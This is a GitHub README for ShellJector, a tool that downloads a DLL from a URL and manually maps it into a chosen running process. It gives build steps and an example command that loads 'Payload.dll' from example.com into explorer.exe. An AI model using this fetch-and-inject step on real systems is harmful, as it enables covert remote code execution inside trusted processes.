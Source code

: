 # ShellJector (v2.0)
Manual map shellcode (aka byte array) injector wich can download DLL from the internet by URL  
Also take a look at [local](https://github.com/Wolf49406/ShellJectorLocal) version!

[![MSBuild](https://github.com/Wolf49406/ShellJector/actions/workflows/msbuild.yml/badge.svg?branch=main)](https://github.com/Wolf49406/ShellJector/actions/workflows/msbuild.yml)

## How to Build:
- Open `ShellJector.sln -> main.cpp`;
- Set `ProcName` and `DllURL`;
- Build;

## Usage:
- Go to \ShellJector\Build;
  - OR just download the [Latest Release](https://github.com/Wolf49406/ShellJector/releases/latest);
  - Set launch arguments (down below);
- Open Target Process;
- Open `ShellJector.exe`;

## Arguments:
You can set `ProcName` and `DllURL` with `-proc` and `-url` arguments  
(ex: `ShellJector.exe -proc explorer.exe -url "https://example.com/Payload.dll"`)  
Arguments are case **sensitive**!

## Stargazers over time
[![Stargazers over time](https://starchart.cc/Wolf49406/ShellJector.svg?variant=adaptive)](https://starchart.cc/Wolf49406/ShellJector)
